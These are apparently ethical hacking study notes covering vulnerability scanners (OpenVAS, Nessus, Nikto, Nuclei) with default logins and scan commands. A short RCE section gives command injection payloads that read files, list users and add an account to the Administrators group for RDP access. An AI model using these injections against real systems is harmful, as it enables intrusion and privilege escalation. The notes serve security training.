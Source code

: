 ## <span style="color: #3498db; font-size: 0.8em;">  Vulnerability Analysis</span>

>  OpenVAS
- `start Greenbone`
- `https://127.0.0.1:9392`
- admin:password
- Scans > tasks > task wizard > Type the IP target or hostname > Start scan

> Nessus
- https://localhost:8834
- Admin:password

> GFI LandGuard (Windows)
* Scan > Type the IP target > Full scan > Scan


## <span style="color: #3498db; font-size: 0.8em;">  Vulnerability Scanning Web Servers</span>

>  Nikto
- `nikto -h domain`
- `nmap --top-ports 1000 10.10.64.208 -oG - | nikto -h -`
- `nikto -h 10.10.64.208 -p 8080 -Display 2`


> Nuclei
- `nuclei -u https://IP`

> Burp Suite

> ZAP


## <span style="color: #3498db; font-size: 0.8em;">  RCE</span>

> View a file
- Example: `8.8.8.8&&type C:\\path`

> Find users
- Example: `8.8.8.8 | net user`

> Add a user
* Example: net localgroup Administrators Test /add
* connect with RDP -> IP and user Test

-----

# <span style="color: #e84393; font-size: 1em;">Module 06: System Hacking</span>

## <span style="color: #3498db; font-size: 0.8em;">Active Online Attack to Crack the System's Password</span>
